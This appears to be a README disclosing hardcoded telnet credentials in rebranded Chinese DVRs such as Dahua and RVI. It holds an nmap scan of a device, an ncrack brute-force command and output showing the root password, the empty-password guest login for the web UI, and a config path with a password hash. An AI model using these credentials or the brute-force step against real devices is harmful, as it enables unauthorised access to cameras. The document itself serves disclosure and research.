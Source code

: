 # Hardcoded telnet login\password in Chinese DVR, like Dahua, RVI.</h1>
[English](README.md) [Русский](README-ru.md)

Also, it can be rebranded and sell under a different name.
Nmap report looks interesting:
```
Nmap scan report for 192.168.100.15
Host is up (0.0050s latency).
Not shown: 65527 closed ports

PORT      STATE    SERVICE        VERSION

23/tcp    open     telnet         BusyBox telnetd
81/tcp    open     http           uc-httpd 1.0.0 #Web-ui, You can get guest access with guest\<empty> credentials
445/tcp   filtered microsoft-ds
4090/tcp  open     ssl/omasgport?
9527/tcp  open     unknown
9528/tcp  open     unknown
34567/tcp open     dhanalakshmi? #This port using for remote veiw in CMS
34599/tcp open     unknown

Device type: WAP
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4.36
OS details: DD-WRT v24-sp1 (Linux 2.4.36)
Network Distance: 5 hops
Service Info: Host: LocalHost

And, with ncrack i "recover" hardcored telnet creds.
```
```
ncrack 192.168.100.15:23 -U logins.txt -P passwords.txt
Starting Ncrack 0.6 ( http://ncrack.org ) at 2018-05-26 13:06
Discovered credentials for telnet on 192.168.100.15 23/tcp:
192.168.100.15:23 23/tcp telnet: 'root' 'xc3511'
Ncrack done: 1 service scanned in 27.06 seconds.
Ncrack finished.
```
Web-ui configuration files are stored in /mnt/mtd/Config/, but i did not understand password hash in file Account1.
Also, in my case sed did not work. 
Empty password hash - tlJwpbo6.

Still work on this.
